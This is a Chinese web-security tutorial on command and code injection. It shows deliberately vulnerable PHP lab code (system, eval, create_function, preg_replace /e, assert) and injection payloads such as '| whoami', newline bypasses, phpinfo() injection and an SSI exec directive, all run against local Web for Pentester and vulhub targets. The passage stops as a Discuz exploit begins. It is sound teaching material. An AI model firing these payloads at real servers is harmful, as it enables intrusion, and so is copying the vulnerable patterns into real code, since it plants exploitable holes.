# [红日安全]Web安全Day13 - 命令执行实战攻防 - 先知社区

\[红日安全\]Web安全Day13 - 命令执行实战攻防

- - -

本文由红日安全成员：Once 编写，如有不当，还望斧正。

大家好，我们是**红日安全-Web安全攻防小组**。此项目是关于Web安全的系列文章分享，还包含一个HTB靶场供大家练习，我们给这个项目起了一个名字叫 [Web安全实战](https://github.com/hongriSec/Web-Security-Attack) ，希望对想要学习Web安全的朋友们有所帮助。每一篇文章都是于基于**漏洞简介-漏洞原理-漏洞危害-测试方法（手工测试，工具测试）-靶场测试（分为PHP靶场、JAVA靶场、Python靶场基本上三种靶场全部涵盖）-实战演练（主要选择相应CMS或者是Vulnhub进行实战演练)**，如果对大家有帮助请**Star**鼓励我们创作更好文章。如果你愿意加入我们，一起完善这个项目，欢迎通过邮件形式（**sec-redclub@qq.com**）联系我们。

# 1\. 命令执行&代码执行概述

## 1.1 命令执行漏洞原理

在操作系统中，“&、|、||”都可以作为命令连接符使用，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令

## 1.2 代码执行漏洞原理

应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell\_exec、passthru、popen、proc\_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。

## 1.3 命令执行与代码执行漏洞区别

命令执行漏洞是可以直接调用操作系统命令，代码执行漏洞是靠执行脚本代码调用操作系统命令

## 1.4 命令执行&代码执行漏洞危害

可以执行代码、系统命令进行读写文件、反弹shell等操作，拿下服务器，进一步内网渗透等等。

# 2.漏洞测试

## 2.1 靶机测试

这里我们使用web for pentester进行测试

### 2.1.1 安装步骤

下载地址：[https://download.vulnhub.com/pentesterlab/web\_for\_pentester\_i386.iso](https://download.vulnhub.com/pentesterlab/web_for_pentester_i386.iso)  
我们只需要VMware安装镜像文件即可使用  
新建虚拟机  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/LUdrWsne1AUZATr7.png)  
默认下一步  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/wGthmeZfeBAz3ZDk.png)  
选择镜像文件  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/KbgNnOEVSickqT8q.png)  
设置虚拟机名称和存放位置  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/qFEtonspioQpZ56v.png)  
磁盘大小默认即可  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/Xo1Sfv3BjPEBEGsP.png)  
开启此虚拟机  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/4SIyenA0BCQ5ggH6.png)  
查看ip地址  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/RpIxyJTtzGovo05A.png)  
搭建成功，这里用Commands injection、Code injection做演示  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/Q8EAAtbBiZ09cvQ4.png)

### 2.1.2 Commands injection Example 1

从代码可以看出未做过滤

```plain
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```

使用|连接符跟上要执行的命令  
[http://192.168.245.131/commandexec/example1.php?ip=127.0.0.1](http://192.168.245.131/commandexec/example1.php?ip=127.0.0.1) | whoami  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/VsIuqiVHiaU2vVyN.png)

### 2.1.3 Commands injection Example 2

从代码可以看出使用/m，/m只匹配一行，所以可以使用换行符绕过

```plain
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```

使用%0a进行绕过  
[http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami](http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami)  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/HTtrec1SK7QlKFkG.png)

### 2.1.4 Commands injection Example 3

进行了限制，但是有重定向

```plain
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
  }
  system("ping -c 2 ".$_GET['ip']);

?>
```

抓包看，可以执行成功  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/E3XBb7BFlCopV05V.png)

### 2.1.5 Code injection Example 1

未做过滤，可以进行闭合触发漏洞。

```plain
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```

[http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//](http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//)  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/zLxDoPz6tjQAhW9w.png)

### 2.1.6 Code injection Example 2

create\_function类似于function test($args){方法代码部分}，然后通过闭合

```plain
<?php
class User{
  public $id, $name, $age;
  function __construct($id, $name, $age){
    $this->name= $name;
    $this->age = $age;
    $this->id = $id;
  }   
}
  require_once('../header.php');
  require_once('../sqli/db.php');
   $sql = "SELECT * FROM users ";

   $order = $_GET["order"];
   $result = mysql_query($sql);
  if ($result) {
      while ($row = mysql_fetch_assoc($result)) {
      $users[] = new User($row['id'],$row['name'],$row['age']);
    }
    if (isset($order)) { 
      usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
    }
   }   

      ?>
      <table class='table table-striped' >
      <tr>
         <th><a href="example2.php?order=id">id</th>
         <th><a href="example2.php?order=name">name</th>
         <th><a href="example2.php?order=age">age</th>
      </tr>
      <?php

    foreach ($users as $user) {  
         echo "<tr>";
             echo "<td>".$user->id."</td>";
             echo "<td>".$user->name."</td>";
             echo "<td>".$user->age."</td>";
         echo "</tr>";
      }  
      echo "</table>";
  require '../footer.php';
?>
```

[http://192.168.245.131/codeexec/example2.php?order=id);](http://192.168.245.131/codeexec/example2.php?order=id);)}phpinfo();//  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/zO5OvNJDESkkkXbq.png)

### 2.1.7 Code injection Example 3

preg\_replace(pattern,replacement,subject)：搜索subject中匹配pattern的部分，以replacement进行替换；当pattern是/e将会以PHP执行replacement中的代码。

```plain
<?php
   echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```

[http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer](http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer)  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/IOFYm2EysZgPM2jG.png)

### 2.1.8 Code injection Example 4

仅去除收尾的空白字符，进行闭合即可

```plain
assert(trim("'".$_GET['name']."'"));
echo "Hello ".htmlentities($_GET['name']);
```

[http://192.168.245.131/codeexec/example4.php?name=%27.phpinfo();//](http://192.168.245.131/codeexec/example4.php?name=%27.phpinfo();//)  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/xRe3IldLe3gTPbX1.png)

## 2.2 实战演练

这里使用vulhub一键搭建漏洞测试靶机

### 2.2.1 vulhub安装

使用的系统：kali  
（1）安装docker

```plain
sudo apt install docker.io
```

（2）安装docker-compose

```plain
pip install docker-compose
```

（3）查看docker-compose是否安装成功

```plain
docker-compose -v   有返回则说明安装成功
```

（4）下载vulhub

```plain
git clone https://github.com/vulhub/vulhub.git
```

（5）添加国内镜像

```plain
修改或创建配置文件
vim /etc/docker/daemon.json 

内容格式：
{
  "registry-mirrors": ["<your accelerate address>"]
}

常见的国内加速站点（添加其中一个即可）
https://registry.docker-cn.com
http://hub-mirror.c.163.com
https://3laho3y3.mirror.aliyuncs.com
http://f1361db2.m.daocloud.io
https://mirror.ccs.tencentyun.com

添加好之后重启服务
service docker restart
```

### 2.2.2 Apache SSI 远程命令执行漏洞

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用语法执行任意命令。

```plain
service docker start    启动docker
cd httpd/ssi-rce/   进到靶机环境目录
docker-compose up -d     构建环境
```

[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/kB4iEBRNidoNFGnm.png)  
访问kali的ip8080端口

这里我们是无法上传正常的PHP，所以就上传个构造好的shtml文件[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/SmLqa6VkfhMflauz.png)

```plain
<!--#exec cmd="whoami" -->
```

上传后，访问  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/MuVH29LcolYYpW7a.png)  
[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/UQWLqvW8bk48OtJX.png)

### 2.2.3 Discuz 7.x/6.x 全局变量防御绕过导致代码执行

由于php5.3.x版本里php.ini的设置里request\_order默认值为GP，导致$\_REQUEST中不再包含$\_COOKIE，我们通过在Cookie中传入$GLOBALS来覆盖全局变量，造成代码执行漏洞。

```plain
cd discuz/wooyun-2010-080723/    进到靶机环境目录
service docker start    启动docker
docker-compose up -d    构建环境
```

[](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/IPOi3H4ZdNgcZ2Io.png)  
启动好后，访问[http://your-ip:8080/install/](http://your-ip:8080/install/)来安装discuz  
